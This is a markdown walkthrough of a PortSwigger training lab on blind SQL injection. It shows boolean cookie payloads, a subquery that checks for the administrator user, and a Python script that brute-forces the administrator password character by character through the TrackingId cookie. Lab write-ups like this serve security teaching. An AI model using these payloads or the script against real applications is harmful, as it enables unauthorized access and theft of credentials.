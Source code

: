 # SQL Injection

## **SQL injection examples**

- Retrieving hidden data - where you can modify an SQL query to return additional results.
- Subverting application logic - where you can change a query to interfere with the application's logic.
- UNION attacks - where you can retrieve data from different database tables.
- Examining the databases - where you can extract information about the version and structure of the database.
- Blind SQL injection - where the results of a query you control are not returned in the application's responses.

# [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## Description

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.
> 
> 
> The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
> 
> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
> 
> To solve the lab, log in as the administrator user.
> 

With ************************************************************Blind SQL Injection************************************************************ HTTP response will no return the result of SQL query or the error message of database. General principles of ************Blind SQL Injection************ that you have to try checking the response to recognize the differences from which to make appropriate adjustments in the query. 

### First, ability test of Blind SQL Injection through response returned by different boolean conditions

In description, “The application uses a tracking cookie” 

![                                                                          TrackingId](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled.png)

                                                                          TrackingId

You can try to modify the request, specifically the **TrackingId** place, by adding a condition check with AND. 

```java
TrackingId=2S5FNfQOVevaZGsW' AND '1'='1
```

![                                                                           Check condition True](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%201.png)

                                                                           Check condition True

As observed above, you can see the message ***“Welcome back”*** in the returned response. Moving on, I try changing the boolean condition to '1'='2 as follows:

```java
TrackingId=2S5FNfQOVevaZGsW' AND '1'='2
```

![                                                                               Check condition False](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%202.png)

                                                                               Check condition False

Now if in the response section can not find the message **“Welcome back”**. The above results show that it is possible to test based on boolean condition and analyze based on the response returned (Specifically in this case is the presence of the message **“Welcome back”**)

## Confirm the existence of the table containing user information and user “administrator”

Modify the request to check if there is a users table in the database like this:

```java
TrackingId=2S5FNfQOVevaZGsW' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![                                                                       Check user administrator
](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%203.png)

                                                                       Check user administrator

Can conclude an important information is that there exists a username **administrator** in the **users table**

### Password detection attack with Blind SQL injection

Once I have determined the username administrator, next I will need to define the password.

You can write a script to brute force each character of the password.

```python
import requests
import string

burp0_url = "your_url"
burp0_cookies = {"TrackingId": "2S5FNfQOVevaZGsW' AND (SELECT 'a' FROM users WHERE username='administrator')='a", "session": "lDZWxZ3bJDDyEPMZUZWYJwdr1iAZogvX"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-CA,en-US;q=0.7,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "none", "Sec-Fetch-User": "?1", "Te": "trailers", "Connection": "close"}

password = ""
base  = burp0_cookies["TrackingId"]
baseQuery = base + "' AND (SELECT SUBSTRING(password, {}, 1) FROM users WHERE username = 'administrator')='{}"
print(baseQuery)

while True:
    for char in range (33, 127):
        f=True
        char= chr(char)
        realQuery =baseQuery.format(len(password)+1, char)
        cookie = burp0_cookies
        cookie["TrackingId"] = realQuery
        print(cookie["TrackingId"])
        res = requests.get(burp0_url, headers=burp0_headers, cookies=cookie)
        if "Welcome back!" in res.text:
            password += char
            break
        print(password)
```

![                                                                                 Result
](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%204.png)

                                                                                 Result

Password: ***9qpwdofs238tomgfc29e***

![                                                                    Login account administrator](SQL%20Injection%200b18092f279b4d6fbee373028f61d777/Untitled%205.png)

                                                                    Login account administrator

# References

[https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)